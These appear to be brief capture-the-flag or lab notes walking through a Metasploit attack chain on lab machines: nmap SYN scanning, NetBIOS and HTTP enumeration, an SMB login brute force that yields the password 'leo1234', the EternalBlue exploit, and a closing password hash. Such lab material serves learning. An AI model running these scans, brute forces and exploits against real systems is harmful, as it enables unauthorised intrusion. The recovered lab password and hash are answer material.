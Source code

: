 `machine 1`
<root user>

search portscan -> use 5 :

nmap -sS -T4 10.10.204.41 -> 5

msf6 > search netbios/nbname -> use 0-> set rhosts and run -> ACME IT SUPPORT

search http_version -> set rshost , port -> run 

search smb_login -> set rshosts , smbuser , and the path or wordlists mention -> run -> `leo1234`

`machine 2`

search windows/smb/ms17_010_eternalblue -> use -> set rhosts and run.
`machine 3`


last note : `$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0`